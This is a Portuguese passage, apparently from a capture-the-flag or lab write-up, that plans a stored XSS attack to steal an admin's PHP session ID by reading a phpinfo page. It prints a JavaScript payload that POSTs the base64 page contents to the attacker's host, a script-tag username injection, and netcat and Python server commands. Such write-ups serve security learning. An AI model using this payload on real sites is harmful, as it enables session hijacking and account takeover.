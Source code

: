 > [Stealing session ids with phpinfo() and how to stop it](https://www.michalspacek.com/stealing-session-ids-with-phpinfo-and-how-to-stop-it)

Então, vamos tentar...

A estratégia será a seguinte:

- Vamos escrever um script em JS que ao ser processado, obtenha o conteúdo do arquivo `/harm/to/self/server_info.php` e envie esse conteúdo (base64) para um servidor web que está escutando em uma porta, assim podemos fazer decode do base64;
- Vamos acionar o XSS fazendo com que esse script seja obtido da nossa máquina e executado na máquina alvo;

Vamos começar escrevendo o script JS:

```javascript
async function get_server_info() {
  const response = await fetch("/harm/to/self/server_info.php");
  const text = await response.text();

  await fetch("http://<seu-ip-da-vpn>:4444/server_info", {
    method: "POST",
    headers: {
      "Content-Type": "application/x-www-form-urlencoded",
    },
    body: `data=${btoa(text)}`,
  });
}

get_server_info();
```

Nosso username vai ser:

```html
<script src="http://<seu-ip-da-vpn>/get_server_info.js"></script>
```

Isso deve fazer com que a máquina alvo tente buscar o script js em minha máquina, então vou precisar
subir um servidor web pra isso. Hoje vou optar pelo python (simplicidade):

```bash
sudo python3 -m http.server 80
```

Assim que fizermos o login, á maquina alvo tentará executar o script e mandar o POST request, para a
minha máquina na porta 4444, então vamos subir um netcat aqui:

```bash
sudo nc -lvnp 4444
```

No netcat devo obter o conteúdo em base64 do arquivo. Então é só decodar e pegar o PHPSESSID do admin e substituir no nosso token de sessão.

## Execução
